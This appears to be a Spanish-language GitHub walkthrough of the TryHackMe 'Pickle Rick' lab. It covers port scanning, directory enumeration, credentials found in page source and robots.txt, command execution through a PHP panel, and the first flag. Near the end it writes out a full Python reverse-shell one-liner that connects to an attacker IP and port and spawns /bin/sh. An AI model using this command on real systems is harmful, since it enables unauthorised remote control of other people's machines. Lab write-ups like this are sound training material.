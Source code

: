 # Guia_Pickle_Rick
Maquina para principiantes de TryHackMe, pensada para usar herramientas y técnicas básicas

# Recursos requeridos en el procedimiento:
  Estos recusos son necesario pero de igual manera los explicare de manera correspondiente.
  Cada palabra esa enlaca a documentacion en caso de quede profundizar

## _[Nmap](https://nmap.org/docs.html)_
- Un herramienta de escaneo de puertos.

## _[Gobuster](https://hackertarget.com/gobuster-tutorial/)_
- Una herramienta de escaneo de redes

## _[Kali-Linux](https://www.kali.org/docs/)_
- Un sistema operativo pensado para realizar pruebas de penetración avanzadas y auditorías de seguridad.

## _[Python](https://www.python.org/)_
- Un lenguaje de programacion. (solo ocupa entenderlo)

## _[HTML](https://developer.mozilla.org/es/docs/Web/HTML)_
- Lenguaje de etiquetas de hipertexto
## _[JavaScritp](https://developer.mozilla.org/es/docs/Web/JavaScript)_
- Lenguaje de Programacion (Entender el codigo) 

## _[PHP](https://www.strato.es/faq/hosting/que-es-php-y-como-lo-utilizo/)_

- Es un lenguaje de programación versátil que se ejecuta en el servidor

## Conceptos basicos para la maquina

- Revershell
- SHH
- Directorios
- Puertos y servicios

# Paso a paso 
![image](https://github.com/user-attachments/assets/b857d3e8-d271-437c-ba27-0cc06009ccab)
- *&* Ejecuta el comando en segundo plano.
  
Primero nos conectamos a la VPN de TryHackMe usando [OpenVPN](https://openvpn.net/as-docs/linux.html#tutorial--connect-from-linux) una ves conectados procedemos con un escaneo de red. 

Una vez conectados haremos un esceneo del equipo con Nnmap 
 -  Nota: TryHackme nos da la IP del odjetivo.
    
   ![image](https://github.com/user-attachments/assets/af097b5c-798d-4626-bf29-c02cac5ad01c)


![image](https://github.com/user-attachments/assets/dcc76218-3fa2-494b-beb7-47fd02dc1abe)

Podemos ver Dos puertos abiertos: 
- Puerto 22/tcp shh : Es protocolo de red para controlar un dispositivo de manera remota.
- Puerto 80/tcp http: Estan corriendo una pagina web en ese equipo.

Lo mejor seria buscar en la web alguna vulnerabilidad.

![image](https://github.com/user-attachments/assets/680b0410-d1c8-4c36-976c-a09782b83287)

![image](https://github.com/user-attachments/assets/4578cd72-83bf-4c9b-bb25-c1f1e04427f1)

Aqui podemos ver cual es el objetivo de este laboratorio. 

ahora como primer paso se pueden hacer dos cosas que seria usar "Gobuster" para buscar directorios ocultos o podemos inspeccionar el codigo fuente de la pagina(CTRL+U).

En mi caso inspeccione la pagina primero:
![image](https://github.com/user-attachments/assets/527cb5b3-5c72-4916-a8d0-2925e7f3246f)

Podemos notar que Rick comento su codigo y puso una nota para si mismo, donde se mencion un usuario.

### Username: R1ckRul3s

Despues eso no se ve nada mas relevante por lo procedemos a usar "Gobuster". 

## Como instalar _Gobuster_:
- Simplemete pon esto en la terminal `sudo apt install gobuster`

  Una vez instalado procedemos a llamarlo.
  ![image](https://github.com/user-attachments/assets/e058efed-7b37-452c-a7fd-862663b318e6)
- Ente comando podemos ver mucha informacion entre ella
- `gobuster` llama la herramienta.
- `dir` Utiliza el modo de enumeración de directorios/archivos
- `http://10.10.117.130` Se indicar la pagina que se desa analizar.
- `-w` es para indicarle a "Gobuster" que se le entregara un diccionario.
- `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- `-x` es para buscar ciertos tipo de archivos en este caso especificamos: php,sh,txt,cgi,etc..

Para mas detalles de _[Gobuster](https://hackertarget.com/gobuster-tutorial/)_

![image](https://github.com/user-attachments/assets/15d20262-9812-490e-a163-78ae43e4d947)

Yo termine el proceso cuando vi que no estaba consiguiendo nada mas. 

### Observaciones: 
![image](https://github.com/user-attachments/assets/7fd0ce21-2d9f-490a-be65-ae2347d518c8)

vemos un archivo en terminacion `.txt` esto quiere decir que es texto. 
ademas un directorio que dice `/assets` podemos revisar para averiguar algo.
Pero mas importante vemos un directorio `/login.php`.

Puedes revisar cual gustes aqui solo pondres los que son importantes.

### Revisando el `/robots.txt`

![image](https://github.com/user-attachments/assets/0a78485b-7fa2-452f-a394-a2fc2473cdc0)

- Vemos un texto, lo guadaremos en caso de que se nos pida alguna contraseña. 

### Revisando `/login.php`

![image](https://github.com/user-attachments/assets/0dcfa508-a00b-413e-8d2e-18dc989c1d9b)

Podemos ver que es una pagina de login 

anterior mente encontramos un usuario en un comentario del code: R1ckRul3s
y tambien encontramos una palabra en `/robots.txt`.

![image](https://github.com/user-attachments/assets/9e777166-868d-4b1c-8d2c-5a246b95a155)

Como podemo ser es una terminal de php por lo que podemos ejecutar comando en el equipo. 
pero para estar seguros ejecutamos un comando `whoami` para ver quien somos, en este caso somos `www-data` 

ahora averiguaremos que archivos puedo ver con `ls`.

![image](https://github.com/user-attachments/assets/9eaebf1a-8277-4626-8afe-a0f197a656d4)

Vemos varios textos por lo que usaremos `nl` para sobreleer la informacion del texto.

![image](https://github.com/user-attachments/assets/29089b17-e650-4716-804d-dac6c27e09a6)

### Primera flag: mr. meeseek hair

entreo los directorios no se ve nada interesante por lo que nos interesaria intentar hacer una [reverse shell](https://www.swhosting.com/es/blog/uso-del-comando-grep-en-sistemas-linux-unix) pero usando python3.

pero no sabemos si ese sistema tiene python instalado por lo que lo verificaremos.

![image](https://github.com/user-attachments/assets/eb05ef62-0b1b-4170-a91e-2e29955b0251)

Podemos ver que efectivamente responde por lo que ejecutaremos script de python para hacer reverse shell.

![image](https://github.com/user-attachments/assets/6345f700-db07-457c-8cbd-0fc076df5119)

Sabemos que el sistema usae python3 por lo que tenemos que especificar.

y ademas necesitaremos modificar el script para que nos funcione y ademas necesitamos poner un puerto a escuchar para resivir la reverse shell. 

para esto necesitamos saber cual es nuestra IP en mi casa:

![image](https://github.com/user-attachments/assets/ab5cc452-d7f8-4127-97a9-dafcba7f04b7)

tenemos tambien que acitvar un puerto en nuestro equipo para recibir, yo escogi el puerto 8888.

![image](https://github.com/user-attachments/assets/62adebd4-dc76-4a71-af67-9a0fbb1b582e)

y con eso queda pendiente a la reverse shell.

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.35.128",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

IP: 10.21.35.128 - Puerto: 8888 

![image](https://github.com/user-attachments/assets/18a29b99-c10c-42b0-8048-75314c2979a2)

Una ves ejecutado podemos ver que el puerto ha recibido la reverse shell.

![image](https://github.com/user-attachments/assets/06d3e158-6ed9-4abc-b53d-3ca24a899813)

ahora para tener una mejor interfaz ejecutamos el siguiente escript `script /dev/null -c bash`.

![image](https://github.com/user-attachments/assets/c0c71bc3-228c-4c10-a68b-c70dd9eb7577)

lo que nos da una interfaz que nos muesta quienes somo y donde estamos. 











